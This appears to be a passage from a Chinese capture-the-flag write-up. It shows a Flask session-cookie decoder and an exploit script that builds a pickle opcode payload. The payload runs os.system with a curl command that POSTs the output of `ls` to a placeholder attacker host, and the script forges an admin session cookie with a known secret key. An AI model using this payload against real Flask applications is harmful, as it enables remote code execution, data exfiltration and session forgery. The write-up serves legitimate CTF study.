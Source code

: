 ```python

        def decode(session_cookie_value, secret_key=None):
            """ Decode a Flask cookie  """
            try:
                if(secret_key==None):
                    compressed = False
                    payload = session_cookie_value

                    if payload.startswith('.'):
                        compressed = True
                        payload = payload[1:]

                    data = payload.split(".")[0]

                    data = base64_decode(data)
                    if compressed:
                        data = zlib.decompress(data)

                    return data
                else:
                    app = MockApp(secret_key)

                    si = SecureCookieSessionInterface()
                    s = si.get_signing_serializer(app)

                    return s.loads(session_cookie_value)
            except Exception as e:
                return "[Decoding error] {}".format(e)
                raise e



if __name__ == "__main__":
    opcode = base64.b64encode(b'''(cos
system
S'curl x.x.x.x:yyyy/ -X POST -d "`ls`"'
os
''')
    structs = '{"user":"admin", "ser_data":"' + str(opcode).replace('b\'','').replace('\'','') + '"}'
    a = base64.b64decode(str(opcode).replace('b\'','').replace('\'','')).replace(b"builtin", b"BuIltIn").replace(b"os", b"Os").replace(b"bytes", b"Bytes")
    if b'R' in a or b'i' in a or b'o' in a or b'b' in a:
        raise pickle.UnpicklingError("R i o b is forbidden")
    else:
        print(FSCM.encode('ce06', structs))
```

这里用的是 post, 因为 get 会有字符格式和长度的限制, 而且不能用 base64 之类的编码 (base64 含有 b 字符)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171921445.png)
